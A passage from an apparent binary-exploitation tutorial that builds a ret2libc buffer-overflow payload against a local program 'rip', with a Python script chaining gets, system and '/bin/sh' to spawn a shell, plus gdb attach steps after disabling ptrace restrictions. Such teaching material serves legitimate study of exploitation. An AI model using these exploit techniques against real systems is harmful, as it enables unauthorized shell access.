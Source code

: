 resulting in:

```
b'A'*0x18 + b'BBBB' + gets + pop;ret + address to nullify + system + exit (with a non zero value instead of the null byte) + "/bin/sh" address
```

And changing everything to the actual addresses:

```
#fill buffer,  EBP,         gets         ,         pop;ret ,     address to nullify,        system,      exit (with \xBB instead of \x00),     "bin/sh"
b'A'*0x18 + b'BBBB' + b'\xc0\xaf\xe5\xf7' + b'\xfb\x85\x04\x08' + b'\x2c\xd2\xff\xff' + b'\x50\x68\xe3\xf7' + b'\xBB\xa8\xe2\xf7' + b'\xc8\x97\xf5\xf7'
```

Or, in a python3 script (first.py):

```
import sys
import struct

payload = b'A' * 0x18
payload += b'BBBB'
payload += struct.pack("I", 0xf7e5afc0) # gets
payload += struct.pack("I", 0x080485fb) # pop ebp;ret
payload += struct.pack("I", 0xffffd218 + 20) # address to nullify
payload += struct.pack("I", 0xf7e36850) # system
payload += struct.pack("I", 0xf7e2a8BB) # exit, with 'BB' instead of null byte
payload += struct.pack("I", 0xf7f597c8) # address to /bin/sh

sys.stdout.buffer.write(payload)

```

Run it by using `./rip $( python3 first.py )`.

In `gdb`, this payload gives me a gracefull shutdown when i
exit the shell. However, when running it normally, i get
a `Segmentation Fault` on exit.

Although we can manipulate some settings to make the `gdb`
and the actual environment we will exploit similar, it is
not always enough. A solution to this is to investigate
in the environment we will exploit by attaching `gdb` to
it.

First, run `sudo sysctl -w kernel.yama.ptrace_scope=0`,
this will allow us to attach `gdb` to an already running
processes.

If you run `./rip $( python3 first.py )` and don't
type anything, you can go to another window and type
`gdb rip` and press `TAB`. This will autocomplete the
command by inserting the PID number of `rip`, allowing
you to start `gdb` attach to the already running process!
